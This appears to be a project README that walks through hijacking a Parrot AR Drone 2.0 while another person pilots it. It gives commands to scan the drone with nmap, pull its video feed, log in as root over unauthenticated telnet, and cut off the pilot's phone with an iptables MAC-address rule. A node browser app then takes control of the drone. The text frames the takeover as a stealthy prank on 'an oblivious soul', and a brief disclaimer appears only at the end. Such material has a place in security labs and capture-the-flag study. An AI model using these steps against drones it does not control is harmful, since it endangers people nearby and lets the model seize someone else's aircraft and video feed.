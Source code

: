 # Hacking the Parrot AR Drone 2.0

This is a simple project to demonstrate how to hijack the control of a Parrot AR Drone 2.0. This model is famously insecure and is often used in hacking marathons and capture the flag events.

**Requirements:**
- A Parrot AR 2.0 Drone
- A smartphone (Android 5.0 was used in this guide)
- A computer or VM (Ubuntu 20.04 was used in this guide)


## Setup - Before Starting

### Parrot AR 2.0:

1. Charge the battery.

The charger should light up red while the battery is charging, and green when the battery is charged.

2. Connect the battery to the drone.

In each of the four rotors, a red LED should light up when the battery is connected, followed by a twitch of each blade, followed by a change of color of the LED from red to green.


### Smartphone:

1. Install the [AR FreeFlight 2.0](https://play.google.com/store/apps/details?id=com.parrot.freeflight&hl=pt_PT&gl=US) app.

**Note:** We had trouble installing on more recent Android devices, but thankfully we had an old smartphone laying around with Android 5.0. Still, we were not able to install from Google Play, so instead, we used [Aptoide](https://ar-freeflight.pt.aptoide.com/app). 

2. Connect the smartphone to the AR 2.0's wi-fi network.

3. Using the AR FreeFLight 2.0 app, test the controls of the drone.

### Computer:

1. Clone this repository.

The [drone-browser](./drone-browser/) directory has been cloned from [here](https://github.com/functino/drone-browser). This will be used to control the AR 2.0 from the computer. It is recommended to use node 10.24.1. The following packages need to be installed:

2. Install the [node-ar-drone](https://github.com/felixge/node-ar-drone) node package:
```bash
# inside ./drone-browser
git clone https://github.com/felixge/node-ar-drone
npm install ./node-ar-drone
```

3. Install the remaining required node packages:
```bash
# inside ./drone-browser
npm install
```

4. Test the app, to see if it works and install/update the remaining problematic node packages (if any):
```bash
# inside ./drone-browser
node ./server.js
```

**Success:**

![drone-browser](./docs/images/drone-browser.png)

**Note:** It's best to close the app for now, to avoid it taking over the AR 2.0 drone at the wrong time - *stealth is key!* - let's start the app again later, only when we are ready to take over the control of the drone!

## Let's Go!

For maximum effect, have an oblivious soul pilot the AR 2.0 using the smartphone. 

On the computer:

1. The AR 2.0 creates an unprotected wi-fi network - connect to it.

2. The AR 2.0 acts as a gateway, the network it creates has a private IP range (typically 192.168.1.0/24), and like a wi-fi router, the private IP of the AR 2.0 should be the first within the range - perform a port scan of the AR 2.0:
```bash
nmap -Pn 192.168.1.1
```

**Success:**

![nmap](./docs/images/nmap.png)

The AR 2.0 has open ports for ftp (21), telnet (23) and *freeciv* (5555) - the latter is used for transmission of video feed.

3. (Optional) Before connecting to the AR 2.0 via telnet, try to access the video feed of the drone, on TCP port 5555, using ffmpeg:
```bash
# (before) install ffmpeg
sudo apt install ffmpeg

# access the video feed
ffplay tcp://192.168.1.1:5555
```

**Success:**

![ffplay](./docs/images/ffplay.png)

4. Connect to the AR 2.0 via telnet:
```bash
telnet 192.168.1.1
```

**Success:**

![telnet](./docs/images/telnet.png)

With this, we are inside the AR 2.0, and we have root access! We can do pretty much anything we want with it - *even blow it up* - but let's (try to) not do it.

We can see who is connected to the AR 2.0 network:

```bash
# inside the telnet session
arp -a
```

![arp](./docs/images/arp.png)

Here, we can see that two devices with MAC addresses are connected to the drone:
- **192.168.1.2** is the smartphone
- **192.168.1.3** is my computer

5. In a scenario where the smartphone was the first to connect and send requests, the AR 2.0 is configured to only accept commands from this IP address. Therefore, before taking control, this priority needs to be hijacked. One way is to drop the access from the smartphone to the AR 2.0 altogether, by adding a firewall rule in the drone:

```bash
# inside the telnet session
iptables -A INPUT -m mac --mac-source 58:48:22:59:bb:1e -j DROP

# to revert this, either reboot the drone (because we haven't persisted the iptables rule), or get the number of the rule, and delete the entry in the iptables:
iptables -L -n -v --line-numbers
iptables -D INPUT <rule-number>
```

**Success:** 

![phone-disconnect](./docs/images/phone-disconnect.png)

The smartphone loses access to the video feed and can no longer control the drone. If a re-connection is attempted, the smartphone will not be able to connect to the AR 2.0's wi-fi network. As for the AR 2.0, it should stay hovering in mid air - *disclaimer: it shouldn't fall!*

6. Take control of the drone with the [drone-browser](./drone-browser/) app:

```bash
# inside ./drone-browser
node ./server.js

# open http://localhost:3001 in a browser of choice
```

**Success:** 

![drone-browser-2](./docs/images/drone-browser-2.png)

As soon as the app is started, the drone will attempt to land, and the control should be possible.

## Disclaimer

*Ethical* vs. *Unethical Hacking*: This project was done for fun, and in no way condones unethical hacking. All tests were performed in a controlled environment, with materials sorted for the end.